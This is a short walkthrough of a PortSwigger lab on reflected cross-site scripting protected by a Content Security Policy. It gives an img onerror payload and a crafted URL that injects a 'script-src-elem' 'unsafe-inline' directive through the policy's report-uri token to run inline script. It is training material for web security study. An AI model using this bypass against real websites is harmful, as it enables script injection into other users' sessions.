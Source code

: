 # Reflected XSS protected by CSP, with CSP bypass

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/content-security-policy/lab-csp-bypass) uses CSP and contains a reflected XSS vulnerability. 

## Reproduction and proof of concept

1. Enter the following into the search box:

```text
<img src=1 onerror=alert(1)>
```

2. Note the payload is reflected, but the CSP prevents the script from executing.
3. In Burp Proxy, observe that the response contains a `Content-Security-Policy` header, and the `report-uri` directive contains a parameter called token. Because you can control the token parameter, you can inject your own CSP directives into the policy.

```text
Content-Security-Policy: default-src 'self'; object-src 'none';script-src 'self'; style-src 'self'; report-uri /csp-report?token=
```

4. Visit the following URL, replacing `0a87000e04aa4aacc0a72cd800b1007d` with your lab ID:

```text
https://0a87000e04aa4aacc0a72cd800b1007d.web-security-academy.net/?search=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&token=;script-src-elem%20%27unsafe-inline%27
```

The injection uses the `script-src-elem` directive in CSP. This directive allows for targeting just script elements. Using this directive, it is possible to overwrite existing `script-src` rules enabling `unsafe-inline` injections, which allows for using inline scripts.
